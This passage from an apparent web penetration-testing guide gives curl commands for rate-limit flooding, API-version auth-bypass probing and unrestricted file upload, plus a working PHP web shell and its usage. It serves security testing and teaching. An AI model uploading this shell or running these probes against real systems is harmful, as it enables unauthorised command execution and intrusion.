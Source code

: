 ```bash
# Test for rate limiting
for i in {1..1000}; do
    curl -s http://target.com/api/search?q=test &
done

# Expected: 429 Too Many Requests after ~100 requests
# Vulnerable: All 1000 requests succeed

# Check response headers
curl -I http://target.com/api/search?q=test

# Rate limit headers (good):
# X-RateLimit-Limit: 100
# X-RateLimit-Remaining: 99
# X-RateLimit-Reset: 1634567890
```

### API Versioning Issues

```bash
# Test older API versions
curl http://target.com/api/v1/users  # Older version, may have vulnerabilities
curl http://target.com/api/v2/users  # Newer version, may have fixes

# Check for version-specific bypasses
# v2 requires authentication, v1 doesn't:
curl http://target.com/api/v1/admin/users  # May bypass auth
```

---

## File Upload Vulnerabilities

### Unrestricted File Upload

**Testing methodology:**

```bash
# 1. Upload legitimate file
curl -F "file=@test.jpg" http://target.com/upload

# 2. Upload PHP shell
curl -F "file=@shell.php" http://target.com/upload

# 3. Access uploaded file
curl http://target.com/uploads/shell.php?cmd=whoami
```

**Basic PHP web shell:**

```php
<?php
// shell.php
system($_GET['cmd']);
?>

<!-- Usage: -->
<!-- http://target.com/uploads/shell.php?cmd=ls -->
```
